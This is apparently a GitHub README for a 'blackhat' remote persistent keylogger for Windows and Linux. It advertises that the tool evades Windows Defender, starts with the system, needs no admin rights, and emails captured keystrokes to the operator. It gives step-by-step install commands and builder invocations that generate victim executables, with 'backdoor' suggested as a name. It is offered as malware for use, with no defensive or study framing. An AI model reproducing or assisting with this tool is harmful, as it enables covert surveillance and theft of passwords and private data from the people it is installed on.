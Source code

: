 # ABOUT THIS PROJECT

Remote persistent keylogger for Windows and Linux.

# Features:
- Logs keys pressed on keyboard
- Does not require root or admin privlages.
- Sends reports by email for ech and everything (AWESOME)
- Starts with system startup.
- Works with Linux and Windows.
- NO SPAMM EMAIL 
- IT BYPASS windows defender 2019 new update

# installation guide 

1. cd /opt/

2. git clone https://github.com/mRanonyMousTZ/mr-robot-keylogger-2019

3. cd mr-robot-keylogger-2019

4. chmod +x *

5. ./install.sh

6. after that you need gmail account and before anything make sure you turn it on lesssecureapps
   to do so use this link https://myaccount.google.com/lesssecureapps
   
   PROBLEMS SOLVED+++++
   guys i receives some problems during installation if u have any problem with this tool solve by open install.sh using your notepad then copy and paste those command .
   
   note 
   dont forget to give it permission "python-2.7.14.msi" in root/opt 


# usage 

usage: runme.py [-h] [-i INTERVAL] [-w] [-l] [-e EMAIL] [-p PASSWORD] -o OUT

MR ANONYMOUS BLACKHAT KEYLOGGER v2.0

Optional Arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Time between reports in seconds.
  -w, --windows         Generate a Windows executable.
  -l, --linux           Generate a Linux executable.

Required Arguments:
  -e EMAIL, --email EMAIL
                        Email address to send reports to.
  -p PASSWORD, --password PASSWORD
                        Password for the email address given in the -e
                        argument.
  -o OUT, --out OUT     Output file name.

# exapmle (WINDOWS)

python runme.py -i 40 -w -e "your email(gmail)" -p "your password" -o "name of your keylogger (eg backdoor)" 

# Example (linux)

python runme.py -i 40 -l -e "your email(gmail)" -p "your password" -o "name of your keylogger (eg backdoor)"

#after generate ur keylogger navigate in your mr-robot-keylogger-2019 directory, you will find DIST folder open it you will find ur generated keylogger there.



# ENJOY @MR ANONYMOUS( THE FREEDOM ) 




